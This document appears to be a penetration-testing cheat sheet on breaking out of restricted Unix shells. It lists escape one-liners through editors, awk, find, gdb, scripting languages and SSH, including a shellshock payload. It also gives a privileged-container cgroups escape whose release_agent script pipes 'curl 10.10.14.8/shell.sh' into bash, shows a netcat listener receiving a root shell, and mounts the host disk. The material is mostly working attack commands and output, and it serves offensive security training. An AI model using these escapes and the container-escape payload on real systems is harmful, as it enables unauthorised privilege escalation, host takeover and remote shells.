 # Escaping Restricted Shells

## Breaking Out Of The Jail

_You can execute built-in shell commands, as well as the ones in your $PATH_

## Unix/Linux

### Enumerate

Get environment variables: 

```text
env
printenv
```

Any programs a different user: 

```text
sudo -l
```

Check current PATH: 

```text
echo $PATH
```

List contents of PATH:

```text
ls path/to/PATH
echo path/to/PATH/*
```

List export variables: 

```text
export -p
```

**Research each executable command, look for odd parameters:**

* man pages
* [GTFOBin](https://gtfobins.github.io/)
* Vulnerabilities in the command

### Writable PATH

* If PATH is writable, game on!
  * `export PATH=/usr/local/bin:/usr/bin:/bin:$PATH`

### Text Editors

* vi, vim, man, less, more

```text
:set shell=/bin/bash
:shell
# or
:!/bin/bash
```

#### nano

```text
# Control - R, Control - X
^R^X
reset; sh 1>&0 2>&0
```

#### ed 

`!'/bin/sh'`

### Common Tools

```text
# cp
cp /bin/sh /current/PATH
# ftp
ftp
ftp>!/bin/sh
# gdb
gdb
(gdb)!/bin/sh
# awk
awk 'BEGIN {system("/bin/bash")}'
# find
find / -name bleh -exec /bin/bash \;
# expect
expect
spawn sh
```

### SSH

```text
# exec commands before remote shell are loaded
ssh test@victim -t "/bin/sh"
# start ssh without loading any profile
ssh test@victim -t "bash --noprofile"
# try shellshock
ssh test@victim -t "() { :; }; /bin/bash"
```

### Scripting Languages

```text
# python
python -c 'import os;os.system("/bin/bash")'
# perl
perl -e 'exec "/bin/sh";'
# ruby
ruby -e 'exec /bin/sh'
```

### Writing To a File

```text
echo "hello world!" | tee hello.sh
echo "append to the same file" | tee -a hello.sh
```

#### Resources

[SANS](https://www.sans.org/blog/escaping-restricted-linux-shells/) [Hacking Articles](https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/) [Escape From SHELLcatraz](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)

### cgroups Escape

[This post](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/) has a nice POC that works to execute a command on the host from a privileged container. It runs `ps`, but we can modify that to run the same reverse shell from earlier:

```text
root@gitlab:~# d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
root@gitlab:~# mkdir -p $d/w;echo 1 >$d/w/notify_on_release
root@gitlab:~# t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@gitlab:~# echo $t/c >$d/release_agent;printf '#!/bin/sh\ncurl 10.10.14.8/shell.sh | bash' >/c;
root@gitlab:~# chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";
```

On running the last command, We can get a request for `shell.sh` at a webserver, and then a shell at a listening `nc`:

```text
username@hostname$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.220] 51066
id                                                  
uid=0(root) gid=0(root) groups=0(root)
```

### File System Escape

Instead of running commands, We could also mount the host filesystem. `lsblk` shows the devices, and `sda2` looks like the main disk:

```text
root@gitlab:/# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
loop1    7:1    0 71.3M  1 loop 
loop4    7:4    0 31.1M  1 loop 
loop2    7:2    0 55.5M  1 loop 
loop0    7:0    0 55.4M  1 loop 
sda      8:0    0   20G  0 disk 
|-sda2   8:2    0   18G  0 part /var/log/gitlab
|-sda3   8:3    0    2G  0 part [SWAP]
`-sda1   8:1    0    1M  0 part 
loop5    7:5    0 31.1M  1 loop 
loop3    7:3    0 71.4M  1 loop
```

We can mount it, and now we can have access to the host filesystem:

```text
root@gitlab:/# mount /dev/sda2 /mnt 
root@gitlab:/# ls /mnt/
bin  boot  cdrom  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var
```

## References

* [http://netsec.ws/?p=337](http://netsec.ws/?p=337)
* [https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)
* [https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)
* [http://airnesstheman.blogspot.ca/2011/05/breaking-out-of-jail-restricted-shell.html](http://airnesstheman.blogspot.ca/2011/05/breaking-out-of-jail-restricted-shell.html)
* [http://securebean.blogspot.ca/2014/05/escaping-restricted-shell\_3.html](http://securebean.blogspot.ca/2014/05/escaping-restricted-shell_3.html)

